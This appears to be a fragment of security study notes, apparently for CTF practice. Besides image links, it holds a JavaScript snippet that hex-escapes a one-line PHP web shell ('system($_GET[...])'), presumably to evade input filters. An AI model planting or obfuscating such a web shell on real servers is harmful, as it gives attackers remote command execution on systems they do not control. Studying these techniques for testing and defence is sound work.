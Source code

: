 ![img](daydayup.assets/1689445992524-f1c3229a-1074-4b13-9fab-6b3a0573a1dd.png)

#### dict

![img](daydayup.assets/1689447145441-17d16e46-64e7-47b2-816d-01835b4399c2.png)

>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```
